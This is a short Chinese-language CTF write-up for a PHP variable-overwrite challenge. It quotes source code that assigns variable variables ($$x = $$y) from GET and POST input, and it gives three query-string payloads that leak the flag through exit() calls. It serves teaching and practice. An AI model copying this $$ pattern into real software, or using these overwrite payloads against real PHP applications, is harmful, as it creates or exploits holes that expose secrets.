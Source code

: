 foreach($_GET as $x => $y){　　　 
    $$x = $$y;  //GET型变量重新赋值为当前文件变量中以其值为键名的值
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){　 //传入的变量为flag   value不是flag
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){  
    exit($yds);
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){   
    exit($is);
}



echo "the flag is: ".$flag;
}

上述为源码

核心代码:

foreach($_POST as $x => $y){　　　　
    $$x = $y  ;  //post 声明至当前文件
}

foreach($_GET as $x => $y){　　　 
    $$x = $$y;  //GET型变量重新赋值为当前文件变量中以其值为键名的值
}

### 通过第一个exit输出flag:

`?handsome=flag&flag=x&x=flag`



### 通过第二个exit输出flag:

`?yds=flag`

覆盖 yds

由于我们输入的变量是yds=flag
所以`$x`=yds `$y`=flag
`$$x `= `$$y` 所以 `$yds=$flag`
flag变量就是 我们要的东西
`exit($yds)。就是echo $flag。`



### 通过第三个exit输出flag:

`?is=flag&flag=flag`
